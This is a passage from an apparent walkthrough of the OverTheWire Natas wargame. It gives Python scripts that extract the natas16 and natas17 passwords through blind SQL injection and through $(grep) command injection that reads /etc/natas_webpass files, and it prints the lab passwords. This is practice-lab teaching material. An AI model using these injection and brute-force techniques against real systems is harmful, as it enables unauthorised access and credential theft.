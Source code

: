 ```python
password = ''
for i in range(32):
    for char in filter:
        myobj = {'username': 'natas16" and password like binary "' + password + char + '%" #'}
        x = requests.post(url, data = myobj, auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'))
        if ('exists' in x.text):
            password = password + char
            print(password)
            break
```
```
username: natas16
password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh 
```

**[Natas16](http://natas16.natas.labs.overthewire.org)**  
It's same Natas15 but have filter
```php
if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    }
```
We can brute force password by using $(command)
```python
import requests
import string

url = 'http://natas16.natas.labs.overthewire.org/'
auth = ('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

characters = string.ascii_letters + '0123456789'
filter = ''
for char in characters:
    x = requests.get(url + '?needle=hellos$(grep ' + char + ' /etc/natas_webpass/natas17)&submit=Search', auth=(auth))
    if ('hellos' not in x.text):
        filter = filter + char
print(filter)

password = ''
for i in range(32):
    for char in filter:
        x = requests.get(url + '?needle=hellos$(grep ^' + password + char + ' /etc/natas_webpass/natas17)&submit=Search', auth=(auth))
        if ('hellos' not in x.text):
            password = password + char
            print(password)
            break
```
```
username: natas17
password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw 
```
